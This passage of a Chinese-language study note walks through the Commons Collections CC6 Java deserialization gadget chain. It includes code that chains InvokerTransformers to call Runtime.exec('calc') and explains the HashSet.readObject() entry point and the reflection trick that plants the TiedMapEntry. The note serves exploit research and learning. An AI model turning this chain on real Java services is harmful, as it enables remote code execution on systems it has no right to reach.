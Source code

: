 ```java=
               Transformer[] transformers = new Transformer[]{
                       new ConstantTransformer(Runtime.class),
                       new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                       new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null,}),
                       new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
               };
               ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
               HashMap<Object,Object> hashMap = new HashMap<>();
               Map lazyMap = LazyMap.decorate(hashMap,chainedTransformer);
               TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"key");
               HashMap<Object,Object> expMap = new HashMap<>();
               expMap.put(tiedMapEntry,"value");

        }
}

```

> 这里在 27 行，也就是 `HashMap<Object, Object> expMap = new HashMap<>();` 这里打断点，会发现直接 26 行也就是 `TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");` 就弹计算器了，不要着急，这里是一个 IDEA 的小坑，后续会讲。


### HashSet.readObject()

CC6 链子的最后一部分这里还有别的选择，芜风师傅他们选择的是 **HashMap.readObject()**，但是 YSO 官方选择的是 **HashSet.readObject()**


#### HashSet.readObject()

下图是 readObject() 源码（节选）：

![](https://i.imgur.com/OQ9QD0R.png)

反序列化的时候会判断 this 是否为 LinkedHashSet 的实例，不是则实例化一个 HashMap 对象并调用其 put() 方法，作为 key 的参数 e 是从反序列化中得来，可控点全部满足，一条完美的链子入口点。

![](https://i.imgur.com/Rj6HTB2.png)

**构造思路：**
从上图可以看到，由于 map 实例域是 HashSet 的私有实例域，所以不可以直接修改，需要通过反射。
这就又引出了一个新问题，通过反射修改 map 为 HashMap 后，如何把 TiedMapEntry 存进 HashMap 里面？
这里需要知道的一个点是 HashMap 里存的 entry 都在其 table 属性域里，这一点可以在本地实验得知：

![](https://i.imgur.com/enI9CWb.png)

![](https://i.imgur.com/2cKIfQC.png)

> 我曾尝试追踪 put 方法，但是始终找不到给 table 赋值的语句。


所以反射改 map 为 HashMap，再把 HashMap 的 table 属性域的 key 改成 TiedMapEntry，value 随意。
